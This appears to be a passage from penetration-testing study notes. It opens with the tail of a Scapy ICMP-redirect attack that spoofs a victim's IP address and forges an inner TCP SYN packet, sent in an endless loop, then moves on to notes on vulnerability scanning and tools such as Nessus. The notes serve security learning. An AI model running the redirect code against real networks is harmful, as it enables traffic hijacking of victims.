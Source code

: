 > The ICMP packet payload /should/ contain the original TCP SYN packet

- sent from the victimIP

```
redirPayloadIP=IP()
redirPayloadIP.src=victimIP
redirPayloadIP.dst=serverIP
fakeOriginalTCPSYN=TCP()
fakeOriginalTCPSYN.flags="S"
fakeOriginalTCPSYN.dport=80
fakeOriginalTCPSYN.seq=444444444
fakeOriginalTCPSYN.sport=55555
```

```
while True:
    send(ip/icmpRedirect/redirPayloadIP/fakeOriginalTCPSYN)
# Press <enter>
```

> The End


# Exploitation

## Vulnerability Assessment

This phase is aimed at building a list of the vulnerabilities present on target systems.
Can be done manually or automatically with tools such as nessus
Take note, if stealth is a necessity, vuln scanners are probably not the best idea.

- Scanner perform their probes on:
Daemons listening on TCP and UDP ports
Configuration files of OS, software suites, network devices etc
Windows registry entries

> The purpose is to find vulnerabilities and misconfigurations

- Some scanners:
OpenVAS = http://www.openvas.org/
Nexpose = http://www.rapid7.com/products/nexpose/index.jsp
GFI LAN Guard = http://www.gfi.com/products-and-solutions/network-security-solutions/gfi-languard
Nessus = http://www.tenable.com/products/nessus

- Nessus:
its composed of two components: a client and a server
Client to configure the scans, server to perform the scanning processes and report the results back to client
Client component offers a web inferface to interact and configure your scans
Server component performs the scans by sending probes to system and applications, collecting the responsed and matching them against its vulnerability database

> The first step is determining if the target hosts are alive and which ports are open
For every open port found, the vuln scan will send special probes to determine which application is running on them.
For each detected service (aka daemon), the scanner queries its database looking For known vulnerabilities.
